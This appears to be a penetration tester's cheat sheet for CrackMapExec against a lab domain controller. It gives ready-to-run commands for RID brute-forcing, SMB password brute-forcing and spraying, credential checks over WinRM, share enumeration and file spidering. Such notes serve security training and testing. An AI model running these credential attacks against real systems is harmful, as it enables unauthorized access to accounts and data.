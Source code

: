 # crackmapexec cme commands
crackmapexec --help
crackmapexec smb --help

## RID brute force
```bash
crackmapexec smb LAB-DC -u 'guest' -p '' --rid-brute
```

## test password username arguments or files
## bruteforce SMB
check individual users and passwords and/or files the same way
```bash
crackmapexec smb $IP -u users -p passwords
```

## test combine valid user and password combinations
```
--no-bruteforce           No spray when using file for username and password (user1 => password1, user2 => password2
--continue-on-success     continues authentication attempts even after successes
```

```bash
crackmapexec smb $IP -u valid_users -p valid_passwords --no-bruteforce --continue-on-success
crackmapexec winrm $IP -u valid_users -p valid_passwords --no-bruteforce --continue-on-success
```

## enumerate shares accessable by user
```bash
crackmapexec smb $IP -u username -p password123 --shares
```

## enumerate acccess to files as json report
outputs to `/tmp/cme_spider_plus/$IP.json`
```bash
crackmapexec smb $IP -u username -p password123 -M spider_plus
```
